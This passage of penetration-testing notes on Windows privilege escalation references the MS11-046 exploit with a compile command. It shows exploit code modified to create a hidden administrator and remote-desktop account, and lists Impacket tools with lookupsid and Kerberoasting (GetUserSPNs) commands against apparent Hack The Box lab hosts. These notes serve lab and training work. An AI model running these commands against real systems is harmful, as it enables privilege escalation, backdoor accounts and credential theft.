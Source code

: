 ### Outdated Windows OS

Microsoft Windows \[Version 6.1.7601] (i.e. Win 7 SP1)

[https://www.exploit-db.com/exploits/40564/](https://www.exploit-db.com/exploits/40564/) (MS11-046)

```
i686-w64-mingw32-gcc 40564.c -lws2_32 -o 40564.exe 
```

![](broken-reference)

Original code

| <p>    // spawn shell (with elevated privileges)</p><p>    printf("         [*] Spawning shell\n");</p><p>    // spawn SYSTEM shell within the current shell (remote shell friendly)</p><p>    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");</p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

Modified code to add admin user.

| <p>    // create admin account (with elevated privileges)</p><p>    printf("         [*] Creating Admin Account (offsec/password)\n");</p><p>    system ("c:\\windows\\system32\\cmd.exe /K net user offsec password /add");</p><p>    system ("c:\\windows\\system32\\cmd.exe /K net localgroup administrators offsec /add");</p><p>    system ("c:\\windows\\system32\\cmd.exe /K net localgroup \"remote desktop users\" offsec /add");</p> |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

## Impacket

Impacket contains several tools for remote service execution, Kerberos manipulation, Windows credential dumping, packet sniffing.

* **Remote code Execution :** atexec.py, dcomexec.py, psexec.py, smbexec.py and wmiexec.py
* **SMB/MSRPC :** getArch.py, ifmap.py, lookupsid.py, samrdump.py, services.py, netview.py, smbclient.py, opdump.py, rpcdump.py and reg.py
* **Kerberos:** GetST.py, GetPac.py, GetUserSPNs.py, GetNPUsers.py, ticketer.py and raiseChild.py
* **Windows Secret:** mimikatz.py
* **Server Tools/MiTM Attacks:** karmaSMB.py and smbserver.py
* **WMI:** wmipersist.py
* **Known Vulnerabilities:** sambaPipe.py and sambaPipe.py
* **MSSQL / TDS:** mssqlclient.py
* **File Formats:** ntfs-read.py and registry-read.py.
* **Others:** mqtt\_check.py, rdp\_check.py, sniffer.py, ping.py, and ping6.py

### lookupsid.py

This script allows you to bruteforce the Windows SID through \[MS-LSAT] MSRPC.

```
/opt/impacket/examples/lookupsid.py $user:stealth1agent@heist.htb
```

### GetUserSPNs.py

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

## Automation Tools

You can use windows-privesc-checker by pentestmonkey
